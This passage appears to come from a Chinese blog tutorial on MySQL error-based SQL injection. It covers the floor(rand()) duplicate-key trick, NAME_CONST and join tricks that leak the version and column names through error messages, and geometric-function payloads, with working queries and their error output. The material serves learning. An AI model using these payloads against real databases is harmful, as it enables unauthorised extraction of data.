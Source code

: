   ```shell
  ERROR 1062 (23000): Duplicate entry '1' for key '<group_key>'
  ```

整个查询过程中，floor(rand(0)*2)被计算了5次，查询原始数据表3次，所以表中需要至少3条数据才能报错。关于这个rand()的问题，官方文档在这里有个说明：
```
RAND() in a WHERE clause is evaluated for every row (when selecting from one table) or combination of rows (when selecting from a multiple-table join). Thus, for optimizer purposes, RAND() is not a constant value and cannot be used for index optimizations.
```

如果有一个序列开头时 0,1,0,0 或者 1,0,1,1 则无论如何都不会报错了，因为虚表开头两个主键会分别是 0 和 1，后面的就直接count(*)加1了

## 4. 一些特性
### 4.1 列名重复
mysql列名重复会报错，我们利用 name_const 来制造一个列：
```shell
mysql> select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
ERROR 1060 (42S21): Duplicate column name '5.7.17'
```

根据[官方文档](https://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_name-const)，name_const函数要求参数必须是常量，所以实际使用上还没找到什么比较好的利用方式。

利用这个特性加上join函数可以爆列名：
```shell
mysql> select *  from(select * from test a join test b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select *  from(select * from test a join test b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'name'
```

### 4.2 几何函数
mysql有些几何函数，例如geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()，这些函数对参数要求是形如(1 2,3 3,2 2 1)这样几何数据，如果不满足要求，则会报错。经测试，在版本号为5.5.47上可以用来注入，而在5.7.17上则不行：
```shell
5.5.47
mysql> select multipoint((select * from (select * from (select version())a)b));
ERROR 1367 (22007): Illegal non geometric '(select `b`.`version()` from ((select '5.5.47' AS `version()` from dual) `b`))' value found during parsing
5.7.17
mysql> select multipoint((select * from (select * from (select version())a)b));
ERROR 1367 (22007): Illegal non geometric '(select `a`.`version()` from ((select version() AS `version()`) `a`))' value found during parsing
```

————————————————
本文主要参考[先知社区](https://xz.aliyun.com/) 的文章 [MYSQL报错注入的一点总结](https://xz.aliyun.com/t/253)，仅作些许修改。

